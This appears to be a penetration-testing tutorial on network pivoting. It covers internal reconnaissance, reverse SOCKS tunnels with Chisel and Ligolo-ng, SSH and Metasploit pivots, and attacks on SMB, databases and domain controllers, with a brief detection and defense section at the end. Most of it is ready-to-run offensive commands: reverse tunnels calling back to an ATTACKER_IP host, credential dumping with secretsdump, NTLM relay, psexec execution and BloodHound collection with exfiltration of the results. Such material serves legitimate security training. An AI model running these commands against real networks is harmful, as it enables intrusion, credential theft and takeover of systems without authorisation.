


# Network Pivoting
> **Difficulty:** Intermediate–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [What Is Network Pivoting?](#what-is-network-pivoting)
2. [Understanding Network Topology](#understanding-network-topology)
3. [Discovering Internal Networks](#discovering-internal-networks)
4. [Identifying Targets from the Pivot Host](#identifying-targets-from-the-pivot-host)
5. [Setting Up Pivots](#setting-up-pivots)
6. [Chisel — Reverse SOCKS Proxy](#chisel--reverse-socks-proxy)
7. [Ligolo-ng — Transparent Proxy](#ligolo-ng--transparent-proxy)
8. [SSH Tunneling](#ssh-tunneling)
9. [Metasploit Pivoting](#metasploit-pivoting)
10. [Scanning Through a Pivot](#scanning-through-a-pivot)
11. [Attacking Internal Services](#attacking-internal-services)
12. [Targeting Domain Controllers](#targeting-domain-controllers)
13. [Multi-Hop Pivoting](#multi-hop-pivoting)
14. [Tool Comparison](#tool-comparison)
15. [Detection & Defense](#detection--defense)

---

## What Is Network Pivoting?

**Network pivoting** is the technique of using a compromised host (the **pivot host**) as a relay to reach network segments that are otherwise inaccessible from the attacker's machine. The pivot host acts as a gateway, forwarding traffic between the attacker and internal targets.

Pivoting is essential in almost every enterprise engagement because:

- **Network segmentation** isolates sensitive systems (servers, OT/ICS, management networks)
- **Firewalls** block direct inbound connections from the internet to internal systems
- **NAT** hides internal IP addresses from external views
- **VLANs** separate workstations from servers, and servers from databases

> **Note:** The term "pivot" is often used interchangeably with "tunnel" or "proxy" in the context of lateral movement. The distinctions are subtle: a pivot implies using a compromised host as a relay, while a tunnel implies encapsulating traffic through a protocol to bypass restrictions.

### Pivoting in the Attack Chain

```
[Attacker]──────────────────▶[Pivot Host]──────────────────▶[Internal Target]
 10.10.10.5    internet        10.10.10.100                    192.168.1.50
               (DMZ)           (has dual NIC)                  (internal DB)
```

The pivot host has access to **both** the internet-facing network and the internal network, making it the bridge for the attack.

---

## Understanding Network Topology

Before pivoting, you need to understand the network layout from the pivot host's perspective.



---

## Discovering Internal Networks

Once you have a shell on the pivot host, the first task is **network reconnaissance** to map what you can reach.

### Linux Pivot Host

```bash
# View all network interfaces and their addresses
ip addr show
ifconfig -a

# View routing table — reveals all connected subnets
ip route show
route -n
netstat -rn

# Check ARP cache — hosts you've recently communicated with
arp -a
ip neigh show

# DNS configuration — often reveals internal domain names
cat /etc/resolv.conf
cat /etc/hosts

# Check for dual-homed interfaces (pivot indicators)
ip addr | grep -E "inet " | awk '{print $2}' | sort -u

# Active connections — what is this host talking to?
ss -tunap
netstat -tunap

# Check for internal DNS records
for domain in corp.local internal.corp ad.corp; do
    host $domain 2>/dev/null && echo "Found: $domain"
done
```

### Windows Pivot Host

```powershell
# Network interfaces
ipconfig /all

# Routing table
route print

# ARP cache
arp -a

# Active connections
netstat -ano

# DNS cache — reveals recently resolved internal hostnames
ipconfig /displaydns

# Hosts file
type C:\Windows\System32\drivers\etc\hosts

# Network shares accessible from this host
net view

# Enumerate domain information
net user /domain
net group "Domain Computers" /domain
```

### Automated Internal Discovery

```bash
# Quick ping sweep — find live hosts on internal network
# (Run from pivot host)
for i in $(seq 1 254); do
    ping -c1 -W1 192.168.1.$i &>/dev/null && echo "192.168.1.$i is UP" &
done
wait

# One-liner version with cleaner output
for i in {1..254}; do (ping -c1 192.168.1.$i &>/dev/null && echo "[+] 192.168.1.$i UP") & done; wait

# PowerShell ping sweep (Windows pivot)
1..254 | ForEach-Object {
    $ip = "192.168.1.$_"
    if (Test-Connection -ComputerName $ip -Count 1 -Quiet 2>/dev/null) {
        Write-Host "[+] $ip is UP"
    }
}

# ICMP sweep using fping (faster)
fping -a -g 192.168.1.0/24 2>/dev/null

# TCP host discovery without ping (firewall bypass)
for i in {1..254}; do
    (bash -c "echo >/dev/tcp/192.168.1.$i/445" 2>/dev/null && echo "[+] 192.168.1.$i:445 open") &
done; wait
```

> **Warning:** Ping sweeps and port scans generate significant network noise. In environments with IDS/IPS, this activity may trigger alerts. Consider slower, more targeted discovery when stealth is required.

---

## Identifying Targets from the Pivot Host

After mapping the network, identify the **most valuable targets** to attack.

### Service Port Reference for Internal Networks

| Port | Service | Why It Matters |
|------|---------|---------------|
| 22 | SSH | Linux admin access, potential lateral movement |
| 80/443 | HTTP/HTTPS | Web applications, admin panels |
| 445 | SMB | File shares, remote execution (PSExec, WMI) |
| 389/636 | LDAP/LDAPS | Active Directory queries |
| 88 | Kerberos | DC identification, ticket attacks |
| 135/593 | RPC | WMI, DCOM remote execution |
| 3389 | RDP | Windows remote desktop |
| 5985/5986 | WinRM | PowerShell remoting |
| 1433 | MSSQL | Database server |
| 3306 | MySQL | Database server |
| 5432 | PostgreSQL | Database server |
| 8080/8443 | HTTP Alt | Tomcat, Jenkins, development apps |
| 8888/9200 | Jupyter/ES | Development tools, Elasticsearch |
| 6379 | Redis | In-memory database, often unauthenticated |
| 27017 | MongoDB | NoSQL database, often unauthenticated |
| 2049 | NFS | Network file system, often misconfigured |

### Quick Target Classification

```bash
# Check for domain controllers (ports 88 + 389 + 445)
for ip in $(cat live_hosts.txt); do
    dc_score=0
    nc -z -w1 $ip 88 2>/dev/null && dc_score=$((dc_score+1))
    nc -z -w1 $ip 389 2>/dev/null && dc_score=$((dc_score+1))
    nc -z -w1 $ip 445 2>/dev/null && dc_score=$((dc_score+1))
    [ $dc_score -ge 2 ] && echo "[DC?] $ip (score: $dc_score)"
done

# Find web applications
for ip in $(cat live_hosts.txt); do
    for port in 80 443 8080 8443 8888; do
        nc -z -w1 $ip $port 2>/dev/null && echo "[WEB] $ip:$port"
    done
done
```

---

## Setting Up Pivots

### ProxyChains Configuration

ProxyChains routes your tool's traffic through a SOCKS proxy running on localhost.

```bash
# /etc/proxychains4.conf (or /etc/proxychains.conf)
[ProxyList]
socks5  127.0.0.1 1080
# For multi-hop:
# socks5  127.0.0.1 1080
# socks5  127.0.0.1 1081
```

> **Note:** `proxychains4` supports SOCKS4, SOCKS5, and HTTP proxies. SOCKS5 is preferred as it supports UDP (required for some tools) and authentication.

---

## Chisel — Reverse SOCKS Proxy

**Chisel** is a fast TCP/UDP tunnel over HTTP. It's one of the most popular pivoting tools because:
- Single binary (Go-compiled, easy to transfer)
- Works through web proxies and CDNs
- Supports both forward and reverse SOCKS proxying

### Basic Reverse SOCKS Pivot

```bash
# ── ON ATTACKER MACHINE ──────────────────────────────────────
# Start chisel server listening on port 9000
# --reverse enables clients to create reverse tunnels
chisel server -p 9000 --reverse

# ── ON PIVOT HOST ────────────────────────────────────────────
# Connect back to attacker and create reverse SOCKS5 on attacker:1080
chisel client ATTACKER_IP:9000 R:socks

# ── ON ATTACKER MACHINE ──────────────────────────────────────
# Verify the SOCKS5 listener is active
ss -tlnp | grep 1080

# Add to /etc/proxychains4.conf:
# socks5 127.0.0.1 1080

# Now scan internal network through pivot
proxychains nmap -sT -Pn -p 22,80,445,3389,5985 192.168.1.0/24 --open 2>/dev/null
```

### Chisel with Authentication

```bash
# Server with auth
chisel server -p 9000 --reverse --auth user:SecretPass123

# Client with auth
chisel client --auth user:SecretPass123 ATTACKER_IP:9000 R:socks
```

### Chisel Port Forwarding (Single Port)

```bash
# Forward attacker:4444 → pivot → 192.168.1.50:445
# Useful when you only need access to one specific service

# Server
chisel server -p 9000 --reverse

# Client on pivot
chisel client ATTACKER_IP:9000 R:4444:192.168.1.50:445

# On attacker — now access 192.168.1.50:445 via localhost:4444
smbclient -L \\localhost -U user -p 4444
```

### Chisel over TLS

```bash
# Server with TLS (avoids plaintext detection)
chisel server -p 443 --reverse --tls-key server.key --tls-cert server.crt

# Client
chisel client --tls-skip-verify https://ATTACKER_IP:443 R:socks
```

---

## Ligolo-ng — Transparent Proxy

**Ligolo-ng** creates a **transparent tunnel** — you can reach internal hosts **directly** by IP without proxychains. This is a major advantage over chisel+proxychains because tools that don't support SOCKS (like ping, many custom tools) work natively.

```bash
# ── ON ATTACKER MACHINE ──────────────────────────────────────
# Create a tun interface for Ligolo
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# Start the Ligolo proxy (relay)
./proxy -selfcert -laddr 0.0.0.0:11601

# ── ON PIVOT HOST ────────────────────────────────────────────
# Connect to Ligolo proxy
./agent -connect ATTACKER_IP:11601 -ignore-cert

# ── BACK ON ATTACKER — IN LIGOLO INTERFACE ───────────────────
# List connected sessions
ligolo-ng » session

# Start tunneling with the session
ligolo-ng » start

# ── ON ATTACKER — ADD ROUTE ──────────────────────────────────
# Route internal network through the ligolo interface
sudo ip route add 192.168.1.0/24 dev ligolo

# Now access internal hosts directly — NO proxychains needed
nmap -sV 192.168.1.50
curl http://192.168.1.30:8080
impacket-psexec domain/user:pass@192.168.1.1
```

> **Note:** Ligolo-ng is generally preferred over Chisel+ProxyChains for complex engagements because transparent routing means ALL tools work without modification, including tools that can't use SOCKS proxies.

---

## SSH Tunneling

SSH provides built-in tunneling capabilities — useful when SSH is available on the pivot host.

### Local Port Forward

Route traffic from attacker's local port → through pivot → to internal host.

```bash
# Forward attacker:4445 → pivot → 192.168.1.50:445
ssh -L 4445:192.168.1.50:445 user@PIVOT_HOST

# Access internal SMB through the tunnel
smbclient -L \\localhost -U domain\\user -p 4445
```

### Dynamic Port Forward (SOCKS Proxy)

```bash
# Create SOCKS5 proxy on attacker:1080 via pivot
ssh -D 1080 -N -f user@PIVOT_HOST

# With specific bind address and no command execution
ssh -D 0.0.0.0:1080 -N user@PIVOT_HOST

# Then use with proxychains
proxychains nmap -sT -Pn 192.168.1.0/24
```

### Reverse Tunnel (Pivot can't reach internet directly)

```bash
# From pivot — create reverse tunnel so attacker can reach pivot's internal network
# Attacker port 2222 → Pivot port 22 (for reverse access)
ssh -R 2222:127.0.0.1:22 attacker@ATTACKER_IP

# Attacker can now SSH into pivot via localhost:2222
ssh -p 2222 user@localhost

# Reverse SOCKS proxy (attacker:1080 via pivot's network)
ssh -R 1080 user@ATTACKER_IP  # Requires AllowTcpForwarding in sshd_config
```

### SSH Multiplexing for Stable Tunnels

```bash
# ~/.ssh/config
Host pivot
    HostName PIVOT_IP
    User pivotuser
    DynamicForward 1080
    ServerAliveInterval 60
    ServerAliveCountMax 3
    ControlMaster auto
    ControlPath ~/.ssh/ctrl-%h-%p-%r
    ControlPersist 10m

# Connect and keep alive
ssh -fN pivot
```

> **Warning:** SSH tunnels can be detected via:
> - `netstat` showing unexpected SSH connections from servers
> - SSH server logs showing multiple channel opens
> - Network monitoring showing persistent low-bandwidth connections

---

## Metasploit Pivoting

Metasploit has built-in pivot support through its `route` and `socks_proxy` modules.

```
# After obtaining a Meterpreter session on the pivot host:

meterpreter > run post/multi/manage/shell_to_meterpreter
meterpreter > background

# Add route through the Meterpreter session
msf6 > route add 192.168.1.0/24 SESSION_ID

# Start SOCKS proxy server
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(socks_proxy) > set SRVPORT 1080
msf6 auxiliary(socks_proxy) > set VERSION 5
msf6 auxiliary(socks_proxy) > run -j

# Scan through pivot
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > set RHOSTS 192.168.1.0/24
msf6 > set PORTS 22,80,445,3389,5985
msf6 > run

# Port forward via Meterpreter
meterpreter > portfwd add -l 4444 -p 445 -r 192.168.1.50
```

---

## Scanning Through a Pivot

When scanning through proxychains, important limitations apply:

| Limitation | Reason | Workaround |
|-----------|--------|------------|
| No UDP | SOCKS5 proxying mostly TCP | Use Ligolo-ng for UDP |
| No raw sockets | SOCKS doesn't support raw IP | Use `-sT` (TCP connect) scan |
| Slower | Each connection goes through relay | Reduce parallelism |
| No ping | ICMP not supported in SOCKS | Use `-Pn` flag in nmap |

```bash
# Safe nmap scan through proxychains
# -sT: TCP connect scan (no raw sockets)
# -Pn: Skip ping (ICMP not supported)
# -n: No DNS resolution (DNS may leak)
# --open: Only show open ports
# Reduce parallelism to avoid overloading pivot
proxychains nmap -sT -Pn -n --open -p 22,80,135,139,443,445,1433,3306,3389,5985,8080 \
    --min-parallelism 1 --max-retries 1 --host-timeout 3m 192.168.1.0/24 2>/dev/null

# CrackMapExec through proxychains (SMB discovery)
proxychains crackmapexec smb 192.168.1.0/24 2>/dev/null

# Web application scanning through pivot
proxychains curl -s http://192.168.1.30:8080/

# FTP through pivot
proxychains ftp 192.168.1.40
```

---

## Attacking Internal Services

### SMB Attacks Through Pivot

```bash
# Enumerate SMB shares
proxychains smbclient -L //192.168.1.50 -U domain\\user%password

# Mount SMB share
proxychains mount.cifs //192.168.1.50/share /mnt/share -o user=domain\\user,pass=password

# Execute command via PSExec
proxychains impacket-psexec domain/user:password@192.168.1.50

# Dump credentials from remote registry
proxychains impacket-secretsdump domain/user:password@192.168.1.50
```

### Web Application Attacks Through Pivot

```bash
# Curl through pivot
proxychains curl -s -b "session=abc123" http://192.168.1.30/admin/

# Gobuster directory brute-force through pivot
proxychains gobuster dir -u http://192.168.1.30:8080 -w /usr/share/wordlists/dirb/common.txt

# SQLMap through pivot
proxychains sqlmap -u "http://192.168.1.30/page?id=1" --dbs

# Nikto web scan
proxychains nikto -h http://192.168.1.30
```

### Database Attacks Through Pivot

```bash
# MSSQL through pivot
proxychains impacket-mssqlclient domain/user:password@192.168.1.1 -windows-auth

# MySQL through pivot
proxychains mysql -h 192.168.1.40 -u root -p

# Redis — often unauthenticated
proxychains redis-cli -h 192.168.1.50 INFO
proxychains redis-cli -h 192.168.1.50 CONFIG GET dir
proxychains redis-cli -h 192.168.1.50 CONFIG GET dbfilename

# MongoDB — often unauthenticated
proxychains mongo 192.168.1.50:27017
```

---

## Targeting Domain Controllers

The Domain Controller (DC) is the crown jewel. From a pivot, attacking the DC typically means full domain compromise.

### Identifying the Domain Controller

```bash
# DNS query for domain controller SRV record (reveals DC hostname and IP)
proxychains nslookup -type=SRV _ldap._tcp.dc._msdcs.corp.local 192.168.1.1

# LDAP query to find DCs
proxychains ldapsearch -H ldap://192.168.1.1 -x -b "" -s base "(objectClass=*)" \
    defaultNamingContext dnsHostName

# CrackMapExec — identify DCs
proxychains crackmapexec smb 192.168.1.0/24 2>/dev/null | grep -i "domain\|dc"

# Ping by name (if DNS works)
proxychains ping -c1 dc01.corp.local
```

### SMB Signing & Relay Attacks

```bash
# Check SMB signing across subnet — unsigned = relay target
proxychains crackmapexec smb 192.168.1.0/24 --gen-relay-list relay_targets.txt 2>/dev/null

# Run Responder on pivot to capture hashes (requires pivot to be on target network)
# Transfer responder to pivot host, then run:
# python3 Responder.py -I eth1 -rdwv

# NTLM relay attack (from attacker through pivot)
# Use ntlmrelayx with SOCKS mode to relay through proxychains
proxychains impacket-ntlmrelayx -tf relay_targets.txt -smb2support -socks
```

### LDAP Enumeration Through Pivot

```bash
# Anonymous LDAP bind (may reveal users and OUs)
proxychains ldapsearch -H ldap://192.168.1.1 -x -b "DC=corp,DC=local" \
    "(objectClass=user)" cn sAMAccountName

# Authenticated LDAP query — find all computers
proxychains ldapsearch -H ldap://192.168.1.1 -x \
    -D "CN=user,CN=Users,DC=corp,DC=local" -w "Password123" \
    -b "DC=corp,DC=local" "(objectClass=computer)" cn dNSHostName

# Find admin users
proxychains ldapsearch -H ldap://192.168.1.1 -x \
    -D "user@corp.local" -w "Password123" \
    -b "DC=corp,DC=local" "(&(objectClass=user)(adminCount=1))" cn
```

### BloodHound Data Collection Through Pivot

```bash
# Transfer SharpHound.exe to pivot and collect (pivot runs on internal network)
proxychains impacket-psexec domain/user:password@192.168.1.50 cmd.exe
# Inside shell: run SharpHound
SharpHound.exe -c all --zipfilename bloodhound_data.zip

# BloodHound Python collection through proxychains (runs on attacker)
proxychains bloodhound-python -c All -u user -p password -d corp.local \
    -ns 192.168.1.1 --zip

# Transfer collected data back
proxychains smbclient //192.168.1.50/C$ -U domain\\user%password \
    -c "get Users\user\bloodhound_data.zip /tmp/bloodhound_data.zip"
```

---

## Multi-Hop Pivoting

When you need to traverse multiple network segments, you chain pivots.



### Multi-Hop with Chisel

```bash
# ── PIVOT 1 → ATTACKER ───────────────────────────────────────
# Attacker: start chisel server
chisel server -p 9000 --reverse

# Pivot1: connect to attacker, create SOCKS on attacker:1080
chisel client ATTACKER_IP:9000 R:1080:socks

# ── PIVOT 2 → PIVOT 1 ────────────────────────────────────────
# Pivot1: start a second chisel server accessible from Pivot2
proxychains chisel server -p 9001 --reverse
# (Pivot1 runs chisel server, accessible via 192.168.1.10)

# Pivot2: connect to Pivot1, create SOCKS on Pivot1:1081
chisel client 192.168.1.10:9001 R:1081:socks

# Pivot1 must forward :1081 back to attacker:
chisel client ATTACKER_IP:9000 R:1081:127.0.0.1:1081

# ── ATTACKER PROXYCHAINS CONFIG ──────────────────────────────
# For reaching 10.0.0.0/24, chain through both hops:
# /etc/proxychains4.conf:
# [ProxyList]
# socks5 127.0.0.1 1080   # Hop 1 (reaches 192.168.1.0/24)
# socks5 127.0.0.1 1081   # Hop 2 (reaches 10.0.0.0/24)
```

### Multi-Hop with Ligolo-ng

```bash
# Ligolo-ng handles multi-hop elegantly with listener creation

# After establishing session with Pivot1, create a listener on Pivot1
ligolo-ng » listener_add --addr 0.0.0.0:11602 --to 127.0.0.1:11601

# On Pivot2 — connect via Pivot1's new listener
./agent -connect 192.168.1.10:11602 -ignore-cert

# Back on attacker — add route for Pivot2's internal network
sudo ip route add 10.0.0.0/24 dev ligolo  # Via session 2
```

---

## Tool Comparison

| Feature | Chisel | Ligolo-ng | SSH Tunneling | Metasploit |
|---------|--------|-----------|--------------|------------|
| **Transport** | HTTP/TLS | TCP (TLS) | SSH | TCP |
| **Proxy Type** | SOCKS5 | Transparent | SOCKS5 / Port Forward | SOCKS5 |
| **ProxyChains Needed** | Yes | No | Yes | Yes |
| **UDP Support** | Limited | Yes | No | No |
| **Multi-Hop** | Moderate complexity | Easy | Complex | Easy |
| **Binary Size** | ~8 MB | ~10 MB | Built-in | Payload-dependent |
| **Windows Support** | Yes | Yes | Requires SSH client | Yes |
| **Stealth** | Medium (HTTP traffic) | Medium | Low (SSH is expected) | Low (known AV sig) |
| **Bandwidth** | High | High | Medium | Medium |
| **Setup Difficulty** | Easy | Medium | Easy | Easy |
| **Best For** | Quick pivots | Complex networks | Linux environments | Metasploit workflows |

> **Note:** In most modern engagements, **Ligolo-ng** is the preferred tool for complex pivoting due to transparent routing. **Chisel** is preferred for quick, single-hop pivots. **SSH** is used when the pivot host is Linux and SSH is already available.

---

## Detection & Defense

### Detection Indicators

| Indicator | Tool | What to Look For |
|-----------|------|-----------------|
| Unusual inbound HTTP/HTTPS to servers | Firewall/IDS | HTTP to non-web servers, custom ports |
| Persistent long-lived TCP connections | NetFlow | Connections active for hours/days |
| SSH to unusual destinations | SIEM | Server SSH-ing out to internet |
| Unexpected processes on servers | EDR | chisel, ligolo, sshd on workstations |
| Port forwarding in SSH logs | SSH server | SSH with `-D`, `-L`, `-R` flags in process args |
| Unusual egress traffic | Firewall | Servers initiating outbound connections |
| DNS for pivot domains | DNS logs | Unusual external DNS from internal servers |

### Network-Level Detection

```bash
# Look for chisel signatures (HTTP with specific user agents)
# Chisel default user agent: "Go-http-client/1.1"

# Look for persistent connections
netstat -an | awk '$6 == "ESTABLISHED"' | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -rn

# Detect port forwarding (unusual listening ports)
ss -tlnp | grep -v "known_service_port"

# Look for processes with unusual network behavior
lsof -i -n -P | grep -v "chrome\|firefox\|ssh\|sshd"
```

### Defensive Recommendations

| Control | Effectiveness | Implementation |
|---------|--------------|----------------|
| **Egress filtering** | High | Block servers from initiating outbound connections |
| **Network segmentation** | High | Enforce VLAN isolation, require firewall traversal |
| **East-west traffic monitoring** | High | Deploy internal IDS/NDR solutions |
| **Endpoint detection** | Medium | EDR with network connection visibility |
| **SSH hardening** | Medium | Disable AllowTcpForwarding, GatewayPorts |
| **Process monitoring** | Medium | Alert on unusual processes on servers |
| **JIT access** | High | Remove persistent admin access paths |

```bash
# SSH hardening to prevent tunneling (/etc/ssh/sshd_config)
AllowTcpForwarding no
GatewayPorts no
X11Forwarding no
PermitTunnel no
```

---

*Tools referenced: Chisel, Ligolo-ng, ProxyChains, Impacket, CrackMapExec, BloodHound, Metasploit*
